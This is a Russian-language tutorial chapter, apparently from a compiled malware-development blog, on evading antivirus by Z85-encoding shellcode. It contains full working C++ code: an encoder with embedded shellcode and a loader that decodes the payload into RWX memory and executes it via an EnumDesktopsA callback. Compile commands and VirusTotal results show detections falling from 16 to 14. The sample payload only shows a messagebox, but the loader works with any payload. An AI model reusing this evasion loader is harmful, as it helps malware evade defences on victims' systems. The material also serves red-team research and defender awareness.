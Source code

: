 \newpage
\subsection{61. Обход антивирусной защиты - часть 8. Кодирование полезной нагрузки с помощью алгоритма Z85. Пример на C++.}

﷽

![av-evasion](./images/64/2022-07-31_16-39.png){width="80%"}

Эта статья является результатом моего собственного исследования интересного трюка: кодирование полезной нагрузки с помощью алгоритма Z85.

Поскольку методы шифрования полезной нагрузки с помощью алгоритмов [AES](https://github.com/cocomelonc/peekaboo/tree/aes) и [XOR](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) и кодирования (например, с помощью алгоритма base64) были достаточно хорошо изучены участниками Blue Team, возник вопрос о том, чтобы попытаться скрыть полезную нагрузку нестандартным способом.

### Z85

*Ascii85*, также называемый *Base85*, представляет собой форму двоично-текстового кодирования, используемую для передачи произвольных двоичных данных по каналам, которые были разработаны для передачи только читаемого человеком текста на английском языке. *Z85* - формат для представления двоичных данных в виде печатного текста. [Z85](https://rfc.zeromq.org/spec/32/) — это производная от существующих механизмов кодирования Ascii85, модифицированная для лучшего удобства использования, особенно для использования в исходном коде.

### практический пример

Давайте рассмотрим практический пример. Сначала закодируем нашу полезную нагрузку через Z85 (`encode.cpp`):

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <./z85.h>
#include <./z85.c>
#include <windows.h>

char* encode(const char* src, size_t len) {
   // allocate output buffer (+1 for null terminating char)
   char* dest = (char*)malloc(Z85_encode_with_padding_bound(len) + 1);

   if (len == 0) {
      dest[0] = '\0'; // write null terminating char
      return dest;
   }

   // encode the input buffer, padding it if necessary
   len = Z85_encode_with_padding(src, dest, len);

   if (len == 0) { // something went wrong
      free(dest);
      return NULL;
   }

   dest[len] = '\0'; // write null terminating char

   return dest;
}

unsigned char payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {
   char* str = encode((const char*)payload, sizeof(payload));
   if (str) {
      printf("%s\n", str);
      free(str);
   }
   return 0;
}
```

Затем скомпилируем его:

```bash
x86_64-w64-mingw32-g++ -O2 encode.cpp -o encode.exe \
-I/usr/share/mingw-w64/include/ \
-I/home/cocomelonc/hacking/cybersec_blog/2022-07-29-malware-av-evasion-8 \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![av-evasion](./images/64/2022-07-31_16-54.png){width="80%"}

и запустим:

```powershell
.\encode.exe
```

![av-evasion](./images/64/2022-07-31_17-17.png){width="80%"}

Как обычно, для простоты я использовал полезную нагрузку `meow-meow` messagebox:

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

Затем, на следующем этапе мы помещаем эту закодированную полезную нагрузку в нашу "вредоносную программу". Я взял технику запуска полезной нагрузки из одной из [предыдущих](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) статей:

```cpp
/*
* hack.cpp
* Z85 encode payload
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2022/07/30/malware-av-evasion-8.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <./z85.h>
#include <./z85.c>
#include <windows.h>

int main(int argc, char* argv[]) {
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  char e_my_payload[] = "2@78z1[C&K*>*fqf06%EFp/pd>nhnL7nq*wNk1HPf7^pGGqxOd]I/"
  "ISTndSg4n>?4Znhm]YjyJQsefEl{:QHJp.q:&Wk#x*pI=7VYI:xJ%0"
  "NK2*Fqsg907.*VBz<XJ=}(]:neKJUI:eyR0NP>inDl^}l5NNQncdpo"
  "g08%vZ]P&r:QHJp.8Qv}[JGRGoE6)jiNJ02suYchkQn]4=$kEcIWScum2KqInDEg4l5L"
  "(4ncd76sv34}sZ19[l0lGSnq3mKk#N:vsv37[k1HOA>$g{P%6njp.2KDn06S@kL]"
  "oV606T8oG^u:107X&^laPHqrTnVPYwKXV3phn2Ma-:*!"
  "KUthc{dYY3v@3iBP]xE6ln2a09IQA*w/X$wP8=AzdNTfaPKVie?QD[00000";
  char d_my_payload[314] = {};
  size_t d = Z85_decode_with_padding(e_my_payload, d_my_payload, strlen(e_my_payload));
  LPVOID mem = VirtualAlloc(NULL, sizeof(d_my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, d_my_payload, sizeof(d_my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, 0);
  return 0;
}
```

Большое спасибо [@artemkin](https://github.com/artemkin/z85) за реально работающую реализацию C/C++, а также кодирование/декодирование с заполнением.

### демо

Давайте посмотрим все в действии. Скомпилируем нашу "вредоносную программу":

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-I/home/cocomelonc/hacking/cybersec_blog/2022-07-29-malware-av-evasion-8 \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](./images/64/2022-07-31_17-21.png){width="80%"}     

и запускаем на машине нашей жертвы:

```powershell
.\hack.exe
```

![av-evasion](./images/64/2022-07-31_17-32.png){width="80%"}

Как видите, все работает отлично :)

Давайте загрузим `hack.exe` на VirusTotal:

![av-evasion](./images/64/2022-07-31_17-34.png){width="80%"}

**Итак, 14 из 70 антивирусных движков определяют наш файл как вредоносный.**

[https://www.virustotal.com/gui/file/6345f46e33919dd1e0691508a1f705d33ed44aadbdd1bb01a15fdad628b29fca/detection](https://www.virustotal.com/gui/file/6345f46e33919dd1e0691508a1f705d33ed44aadbdd1bb01a15fdad628b29fca/detection)    

если вы помните, эта техника без кодирования показала результат **16 из 66**:

![av-evasion](./images/60/2022-06-27_14-37.png){width="80%"}

[https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection](https://www.virustotal.com/gui/file/657ff9b6499f8eed373ac61bf8fc98257295869a833155f68b4d68bb6e565ca1/detection)

**Мы уменьшили количество антивирусных движков, которые обнаруживают наше вредоносное ПО, с 16 до 14**!

Поэтому можно предположить, что уклонение работает.

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[Z85](https://rfc.zeromq.org/spec/32/)    
[https://github.com/artemkin/z85](https://github.com/artemkin/z85)    
[EnumDesktopsA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumdesktopsa)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-07-29-malware-av-evasion-8)      
